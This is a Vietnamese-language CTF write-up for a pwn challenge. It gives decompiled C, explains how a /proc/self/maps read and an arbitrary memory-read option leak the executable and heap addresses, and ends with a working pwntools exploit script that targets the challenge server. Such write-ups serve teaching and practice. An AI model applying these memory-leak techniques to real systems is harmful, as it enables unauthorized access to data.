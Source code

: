 # capture_the_flaaaaaaaaaaaaag

1 chall đặc biệt lạ rất đáng làm


## ida 

```c 
int __cdecl __noreturn main(int argc, const char **argv, const char **envp)
{
  char ptr; // [rsp+Bh] [rbp-15h] BYREF
  unsigned int i; // [rsp+Ch] [rbp-14h]
  FILE *stream; // [rsp+10h] [rbp-10h]
  unsigned __int64 v6; // [rsp+18h] [rbp-8h]

  v6 = __readfsqword(0x28u);
  setbuf(stdin, 0LL);
  setbuf(stdout, 0LL);
  setbuf(stderr, 0LL);
  stream = fopen("flaaaaaaaaaaaaag", "r");
  if ( !stream )
  {
    puts("cannot fopen the flaaaaaaaaaaaaag");
    exit(1);
  }
  if ( !fread(&ptr, 1uLL, 1uLL, stream) )
  {
    puts("cannot fread the flaaaaaaaaaaaaag");
    exit(1);
  }
  if ( fclose(stream) )
  {
    puts("cannot fclose the flaaaaaaaaaaaaag");
    exit(1);
  }
  printf(
    "At polygl0ts we are very cool, so you get the first flaaaaaaaaaaaaag character for free : %c\n",
    (unsigned int)ptr);
  puts("Figure out the rest yourself !");
  for ( i = 4; (int)i > 0; --i )
  {
    printf("You have %d action(s) left\n", i);
    menu();
  }
  if ( feedback )
    free(feedback);
  puts("no actions left :(");
  exit(0);
}

unsigned __int64 menu()
{
  int v1; // [rsp+0h] [rbp-50h] BYREF
  int v2; // [rsp+4h] [rbp-4Ch]
  char *v3[2]; // [rsp+8h] [rbp-48h] BYREF
  FILE *stream; // [rsp+18h] [rbp-38h]
  __int64 buf[2]; // [rsp+20h] [rbp-30h] BYREF
  char s[24]; // [rsp+30h] [rbp-20h] BYREF
  unsigned __int64 v7; // [rsp+48h] [rbp-8h]

  v7 = __readfsqword(0x28u);
  puts("1 - read from file");
  puts("2 - read from memory");
  puts("3 - send feedback");
  printf("> ");
  v1 = 0;
  __isoc99_scanf("%d%*c", &v1);
  switch ( v1 )
  {
    case 1:
      buf[0] = 0LL;
      buf[1] = 0LL;
      printf("filename > ");
      v2 = read(stdin->_fileno, buf, 16uLL);
      if ( v2 <= 0 )
        LOBYTE(buf[0]) = 0;
      else
        *((_BYTE *)buf + v2 - 1) = 0;
      stream = fopen((const char *)buf, "r");
      if ( !stream )
      {
        printf("cannot fopen %s\n", (const char *)buf);
        exit(1);
      }
      if ( !fgets(s, 16, stream) )
      {
        printf("cannot fgets %s\n", (const char *)buf);
        exit(1);
      }
      if ( fclose(stream) )
      {
        printf("cannot fclose %s\n", (const char *)buf);
        exit(1);
      }
      puts(s);
      break;
    case 2:
      v3[0] = 0LL;
      printf("address > ");
      __isoc99_scanf("%zx", v3);
      puts(v3[0]);
      break;
    case 3:
      v3[1] = 0LL;
      if ( feedback )
      {
        puts("sorry, but that's enough criticism for today !");
      }
      else
      {
        puts("please share your thoughts with us");
        printf("> ");
        getline(&feedback, &n, stdin);
        puts("thank you !");
      }
      break;
    default:
      puts("invalid choice");
      exit(1);
  }
  return v7 - __readfsqword(0x28u);
}
```

## Analysis and Exploit

- menu cho ta 3 option, 1 là in nội dung 1 file (cat name_file), 2 là nhập 1 địa chỉ và in data địa chỉ đó, 3 đơn giản là nhập 
- file chứa flag tên flaaaaaaaaaaaaag (16byte), nhưng mà ta nhập tối đa 15byte ở option 1 (1 byte newline), nên ko leak được bằng option 1 
- có 1 đoạn đặc biệt cần để ý 

![image](https://github.com/gookoosss/CTF/assets/128712571/61fd8328-314c-4d2a-bfc7-6013d51308b5)


- ở đây có hàm fread(), đọc flag và lưu vào heap, sau đó hàm fclose sẽ free cái chunk đó, hmm nếu vậy khả năng cao flag được lưu trong top chunk, check xem sao 

![image](https://github.com/gookoosss/CTF/assets/128712571/de71795e-339c-44e7-89ae-3a9e34c3fdb7)


- oke nếu vậy thì ta chỉ cần leak được heap là xong 
- hmm quan trong là giờ làm sao ta leak được addr bất kì, sau khi được hint thì mình học được 1 lệnh rất hữu ích để leak addr 

```cat /proc/self/maps``` 


![image](https://github.com/gookoosss/CTF/assets/128712571/944b3a10-ad95-43a2-b472-3ed944a17852)


- lệnh này khá giống vs vmmap khi debug, lợi dụng nó để leak exe 

![image](https://github.com/gookoosss/CTF/assets/128712571/e9c3c613-c397-4ac7-8b4a-4344dcf119f3)


- có được exe rồi thì ta chỉ cần leak heap nữa là xong, lúc này ta để ý thằng feedback 


![image](https://github.com/gookoosss/CTF/assets/128712571/d796b7b8-7497-4c30-8909-87cec7f57c51)


- nó được nhập giá trị bằng hàm getline(&feedback), chứng tỏ feedback đang trỏ đến 1 địa chỉ heap, địa chỉ heap chứa data ta nhập vào => leak heap, vô tình ta khởi tạo vùng nhớ heap từ top chunk đang chứa flag, nên ta chỉ nhập 1 byte để ko bị orw flag
- cuối cùng ta cũng có được flag 

![image](https://github.com/gookoosss/CTF/assets/128712571/0d21ca32-43cf-4d27-a923-115d34a29b07)


## script 

```python 
from pwn import *

p = process('./capture_the_flaaaaaaaaaaaaag')
exe = ELF('./capture_the_flaaaaaaaaaaaaag')
p = remote('chall.polygl0ts.ch', 9003)
p.sendlineafter(b'> ', b'3')
p.sendlineafter(b'us\n', b'3')

p.sendlineafter(b'> ', b'1')
p.sendlineafter(b'> ', b'/proc/self/maps')

exe.address = int(p.recvuntil(b'-')[11:-1], 16)
print(hex(exe.address))
feedback = exe.address + 0x4050

p.sendlineafter(b'> ', b'2')
p.sendlineafter(b'> ', hex(feedback))
heap = u64(p.recv(6) + b'\0\0')
print(hex(heap)) 

p.sendlineafter(b'> ', b'2')
p.sendlineafter(b'> ', hex(heap + 3))

p.interactive()

```
